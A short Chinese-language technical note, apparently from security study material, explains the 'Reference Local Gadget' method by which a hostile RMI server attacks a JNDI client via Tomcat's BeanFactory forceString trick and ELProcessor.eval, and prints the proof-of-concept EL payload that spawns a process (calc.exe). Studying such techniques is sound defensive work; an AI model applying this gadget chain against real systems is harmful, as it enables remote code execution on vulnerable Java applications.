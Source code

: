 ### RMI Server Attack Client 方法三之 Reference Local Gadget

#### 原理 

在使用 `javax.naming.Reference` 恢复的过程中，会判断 `factory` 在本地是否存在，如果存在的话，会调用 `factory.getObjectInstance` 方法。

`org.apache.naming.factory.BeanFactory` 在 `getObjectInstance()` 中会通过反射的方式实例化`Reference`所指向的任意Bean Class，并且会调用`setter`方法为所有的属性赋值。而该Bean Class的类名、属性、属性值，全都来自于`Reference`对象，均是攻击者可控的。

并且在 `org.apache.naming.factory.BeanFactory` 可以通过 `forceString` 指定方法名（这里将 `xxx` 指定为 `eval` 方法）

```java
new StringRefAddr("forceString", "xxx=eval")
```

执行任意只有单个参数且为`String`类型的方法。

最终执行的是 `javax.el.ELProcessor.eval()` 方法：

```java
new ELProcessor.eval("\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['cmd','/c','calc.exe']).start()\")");
```